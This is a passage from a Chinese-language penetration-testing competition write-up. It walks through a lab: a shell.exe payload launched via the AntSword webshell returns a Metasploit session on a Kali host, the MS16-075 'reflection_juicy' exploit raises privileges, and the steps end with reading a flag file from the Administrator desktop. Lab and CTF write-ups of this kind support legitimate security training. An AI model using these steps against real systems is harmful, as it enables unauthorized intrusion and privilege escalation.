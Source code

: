 ![image-20220617163922372386-1655869763224273.png](img/网络安全渗透赛 Local.assets/e056689e7da68c84d136e15baaad4360.png)

回到`Win10`主机的蚁剑中，在`shell.exe`所在目录下右键打开终端，执行命令：

```
shell.exe
```

![image-20220617163005728242-1655869764455758.png](img/网络安全渗透赛 Local.assets/01b20097a6c944f584bb6c96de614df1.png)

回到`Kali`主机的MSF中，获取到会话：

![image-20220617171300251251-1655869765699978.png](img/网络安全渗透赛 Local.assets/282400b1c65c51c5c2f837e83ea6b15f.png)

查看权限：

![image-20220617171323750573-1655869767272653.png](img/网络安全渗透赛 Local.assets/cde796ef33b0195d3d65c5abddd532ef.png)

输入`background`退出会话，获得`session id`：

![image-20220617171345538730-1655869768469244.png](img/网络安全渗透赛 Local.assets/207f3b4c449ef2d13b8ce3e63aa70f11.png)

我们可以利用`MS16-075`的payload进行提权：

	use exploit/windows/local/ms16_075_reflection_juicy
	
	set session 1
	
	run

![image-20220617171441233899-1655869770043419.png](img/网络安全渗透赛 Local.assets/408b148fc43d983dde2c5c9ef9a4036c.png)

查看权限：

![image-20220617171506717791-1655869771319655.png](img/网络安全渗透赛 Local.assets/928f4fcb57029c4bd73c6436d153bd1e.png)

进入交互界面：

```
shell

cd C:\Users\Administrator\Desktop

dir

type flag.txt
```

获取flag：

```
flag{9877-DD30-1335-C9C9-B4F9-0E8C-CC13-5FA4}
```

![image-20220622112535195681-1655869772626490.png](img/网络安全渗透赛 Local.assets/a879606a70b01c6f0297921eaa6fd99c.png)

##### 任务3：信息收集(T1595 - 主动扫描)
